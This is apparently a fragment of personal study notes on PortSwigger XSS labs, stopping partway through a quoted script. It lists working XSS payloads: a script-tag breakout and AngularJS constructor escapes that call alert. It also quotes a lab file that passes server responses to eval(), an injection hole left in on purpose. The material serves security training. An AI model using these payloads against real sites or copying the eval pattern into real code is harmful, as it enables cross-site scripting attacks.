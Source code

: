 </script><script>alert('xss');</script><script>/*

https://security.stackexchange.com/questions/112069/break-out-of-javascript-data-context-to-perform-xss-when-backslash-and-quotes-ar
    
### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app` gives it away that it is an angularjs application
    
{{constructor.constructor('alert(1)')()}}

{{$on.constructor('alert(1)')()}}

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md
    
### Lab: Reflected DOM XSS
    
<script src='resources/js/searchResults.js'></script>
<script>search('search-results')</script>
    
https://0a2600570393199ac0b03375001500fc.web-security-academy.net/resources/js/searchResults.js
    
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }
